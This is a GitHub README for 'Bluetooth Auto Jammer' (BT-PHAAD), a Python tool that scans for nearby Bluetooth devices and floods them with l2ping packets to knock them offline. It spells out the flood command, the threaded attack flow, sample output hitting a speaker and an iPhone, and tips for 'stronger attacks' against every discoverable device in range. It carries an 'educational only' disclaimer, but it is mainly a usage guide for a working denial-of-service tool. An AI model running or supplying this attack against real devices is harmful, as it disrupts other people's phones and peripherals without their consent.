

# Bluetooth Auto Jammer 🚀 - L2Ping DoS Tool

A Bluetooth DoS (Denial of Service) penetration testing tool written in Python, designed to perform **l2ping flood attacks** on nearby Bluetooth devices.

> **⚠️ For Educational & Authorized Security Testing Only**
> This tool is intended solely for authorized penetration testing, security research, and educational purposes. You must have explicit written permission before testing any device you do not own.

---

## 🔧 Features

| Feature | Description |
|---------|-------------|
| **Bluetooth Device Scanning** | Discovers discoverable Bluetooth devices in range using `hcitool scan` |
| **Auto hci0 Detection** | Automatically checks and brings up the `hci0` Bluetooth interface |
| **MAC Validation** | Validates MAC addresses against `XX:XX:XX:XX:XX:XX` format |
| **Multi-Device DoS** | Launches simultaneous `l2ping -s 600 -f` flood attacks on all discovered devices |
| **Single Device Attack** | Option to attack one specific device by manual MAC entry |
| **Colored Terminal Output** | ANSI color-coded logs for better readability |
| **Threaded Attacks** | Uses Python threading to attack multiple devices concurrently |

---

## 📋 Requirements

### System Dependencies (Kali Linux / Debian-based)

```bash
sudo apt update
sudo apt install bluez bluez-tools bluetooth
```

The tool relies on:
- `hcitool` – for scanning Bluetooth devices
- `l2ping` – for performing the L2CAP ping flood
- `hciconfig` – for managing the Bluetooth adapter interface

### Python

- Python 3.x (no external pip packages required — only built-in modules: `subprocess`, `threading`, `time`, `os`, `re`)

---

## 🚀 Installation & Usage

### 1. Download the Script

```bash
git clone https://github.com/MADHacker912/BT-PHAAD.git
cd BT-PHAAD 
```

### 2. Run with Root Privileges

> `hcitool`, `hciconfig`, and `l2ping` all require root/sudo.

```bash
sudo python3 BT-PHAAD.py
```

### 3. Workflow

1. **Banner & Credits** are displayed.
2. The script checks and brings up the `hci0` Bluetooth interface.
3. It scans for nearby discoverable Bluetooth devices (up to 30 seconds).
4. All found devices are listed with indices.
5. You are prompted:
   - `y` → Start DoS flood on **all** devices.
   - `n` → Switch to **single device** manual attack mode.
6. Press `CTRL+C` anytime to stop the attack.

---

## ⚙️ How It Works (Code Explanation)

```
┌─────────────────────────────────────────────┐
│              MAIN (entry point)               │
├─────────────────────────────────────────────┤
│  1. Clear terminal & print banner/credits    │
│  2. Call scan_devices()                      │
│  3. Display discovered devices               │
│  4. Ask user: attack all or single device    │
└──────────────┬──────────────────────────────┘
               │
               ▼
┌──────────────────────────────┐
│       scan_devices()          │
├──────────────────────────────┤
│  1. ensure_hci0_up()         │
│  2. subprocess: hcitool scan │
│  3. Parse & validate MACs    │
│  4. Return [(addr, name)...] │
└──────────────┬───────────────┘
               │
               ▼
┌─────────────────────────────────────┐
│        start_attack(devices)         │
├─────────────────────────────────────┤
│  For each device:                   │
│    Create & start daemon thread     │
│    └─► attack_device(mac, name)     │
│          └─► l2ping -i hci0 -s 600  │
│                   -f {mac}          │
└─────────────────────────────────────┘
```

### Attack Mechanism

The core attack uses `l2ping` with the following flags:

```bash
l2ping -i hci0 -s 600 -f <TARGET_MAC>
```

| Flag | Meaning |
|------|---------|
| `-i hci0` | Bluetooth interface to use |
| `-s 600` | Packet size (600 bytes) |
| `-f` | Flood mode (send packets as fast as possible, delay = 0) |

The flood of L2CAP echo requests overwhelms the target device's Bluetooth stack, consuming CPU resources and causing it to lag, disconnect, or become completely unresponsive (DoS).

---

## 🖥️ Terminal Output (Screenshot Reference)

```

```

> *Add your actual terminal screenshot inside the `screenshots/` folder and replace the path above.*

### Expected Output Example:

```
 ___ ______        ___  __ _____   ___   ___
  / _ )_  __/ ____  / _ \/ // / _ | / _ | / _ \
 / _  |/ /   /___/ / ___/ _  / __ |/ __ |/ // /
/____//_/         /_/  /_//_/_/ |_/_/ |_/____/

        Created by SAKSHAM GUPTA
        System phadne ke liye
        Insta- _vibecoder
        Portfolio- saksham9125.netlify.app
        For Educational Purpose Only

[*] Scanning for Bluetooth devices...
[+] Devices found:
1. JBL Speaker - 00:1A:7D:DA:71:13
2. iPhone (ABC) - 7C:11:BE:44:2F:9A

Start DoS attack on ALL devices? (y/n): y

[+] Attacking JBL Speaker (00:1A:7D:DA:71:13) with l2ping flood...
[+] Attacking iPhone (ABC) (7C:11:BE:44:2F:9A) with l2ping flood...
[*] Attacking all devices. Press CTRL+C to stop.
```

### Color Scheme

| Color | ANSI Code | Purpose |
|-------|-----------|---------|
| `CYAN` | `\033[96m` | Banner text |
| `BLUE` | `\033[94m` | Informational / scanning |
| `GREEN` | `\033[92m` | Attack started / success |
| `YELLOW` | `\033[93m` | User prompts / device list |
| `RED` | `\033[91m` | Errors / warnings |

---

## ⚠️ Important Notes

1. **Bluetooth adapter** must support the `hci` interface (most internal BT adapters and USB BT dongles do).
2. **Only discoverable devices** are found during scanning. Non-discoverable (hidden) devices are invisible to `hcitool scan`.
3. **Attack duration** is capped at **1 hour** (`time.sleep(3600)` in the `main()` function). Modify this value to change run time.
4. **Single thread per device** — add more threads per device for stronger attacks (modify the `attack_device()` function if needed).
5. **Requires root/sudo** for all Bluetooth operations.

---

## 🛠️ Troubleshooting

| Problem | Possible Fix |
|---------|-------------|
| `No hci0 device found` | Run `sudo hciconfig` to list interfaces. Connect a BT dongle or load `btusb` kernel module: `sudo modprobe btusb` |
| `Scan timed out` | Increase timeout value in `subprocess.check_output(..., timeout=30)` or run `sudo hciconfig hci0 reset` |
| `Permission denied` | Always run with `sudo` |
| `l2ping: Device or resource busy` | Reset adapter: `sudo hciconfig hci0 down && sudo hciconfig hci0 up` |
| `hci0 DOWN` | Manually bring it up: `sudo hciconfig hci0 up` |
| Bluetooth not working | Check if adapter is blocked: `sudo rfkill list` then `sudo rfkill unblock bluetooth` |

---

## 📂 File Structure

```
bluetooth-auto-jammer/
├── bj.py               # Main Python script
├── README.md           # This file
└── screenshots/
    └── terminal_output.png   # Add your screenshot here
```

---

## 🔬 Technical Deep Dive

### `validate_mac(mac)`
Uses regex `^([0-9A-Fa-f]{2}:){5}([0-9A-Fa-f]{2})$` to validate MAC address format before proceeding with any attack.

### `ensure_hci0_up()`
Checks `hciconfig` output for `hci0` status. If `DOWN`, tries to bring it up. If no `hci0` found, returns `False`.

### `scan_devices()`
Runs `hcitool scan` with a 30-second timeout. Parses output lines (skipping header), splits by tab, validates MACs, returns a list of `(addr, name)` tuples.

### `attack_device(mac, name)`
Spawns `l2ping -i hci0 -s 600 -f <mac>` as a subprocess with a 60-second timeout per call.

### `start_attack(devices)`
Creates one daemon thread per device, waiting 0.5s between thread spawns to prevent local system overload.

### `attack_single_device()`
Prompts user for a target MAC and name manually, then calls `attack_device()` directly.

### `main()`
Orchestrates the full flow: clear screen → print banner → scan → display → prompt → attack.

---

## 📜 Credits

```
Created by SAKSHAM GUPTA
System phadne ke liye
Insta - _vibecoder
Portfolio - saksham9125.netlify.app
Discord - _obito_gupta_
```

---

## 📄 License

This project is for **educational and authorized security testing purposes only**. Misuse of this tool against devices without explicit permission is illegal. The author assumes no liability for misuse.

---

*Happy Hacking — Stay Ethical! 🛡️*
